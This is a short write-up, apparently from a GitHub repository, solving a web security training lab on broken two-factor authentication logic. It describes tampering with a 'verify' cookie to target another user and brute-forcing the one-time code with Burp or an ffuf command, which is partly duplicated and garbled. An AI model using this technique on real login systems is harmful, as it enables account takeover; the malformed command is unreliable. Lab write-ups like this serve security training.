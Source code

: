 
---

## LAB 8 -Lab: 2FA broken logic

## Lab Description :


![image](https://github.com/user-attachments/assets/863308e2-a886-42d2-aa9e-0de281561e9f)


## Solution :


Login in as winer and at will send to mail box

![image](https://github.com/user-attachments/assets/af13d4c7-7202-45a5-a806-574f0677af34)


1445 is otp

![image](https://github.com/user-attachments/assets/eadceb41-08a7-4341-8c44-77566cef1ff9)

Enter otp code and intercept it through burp we  see verify option which mean otp code is wiener we can change it with carlos and the brute
Force otp code through crunch wordlist

![image](https://github.com/user-attachments/assets/ad893dfe-50b2-4f41-8ab9-aa53d12c9a7d)

 now brute force otp

![image](https://github.com/user-attachments/assets/0ed1ee69-1aa0-4da5-b26e-b598bd036fd2)



 
We can see that 302 response and redireted us to login we have suceffully login

![image](https://github.com/user-attachments/assets/d3cd426b-6f02-4955-873a-94ab071fb207)


If you donont have burp pro , used `ffuf` TO FUZZ THE otp faster.


```
ffuf -X POST -u "redacted/login2" -H "Cookie: verify=carlos; session=NB5SwamM383GwnD0MbTv7BXB5WeA3fIv" -H "Content-Type: application/x-www-form-urlencoded" -d "mfa-code=FUZZ" -w s; session=NB5SwamM383GwnD0MbTv7BXB5WeA3fIv" -H "Content-Type: application/x-www-form-urlencoded" -d "mfa-code=FUZZ" -w /home/noah/numbers.txt -fc 400,401,200
```


Enter the OTP of carlos & we have successfully solved the lab.

![image](https://user-images.githubusercontent.com/67383098/226980655-4eb0e0d2-af3c-4769-884b-8d48ad22c47b.png)


---

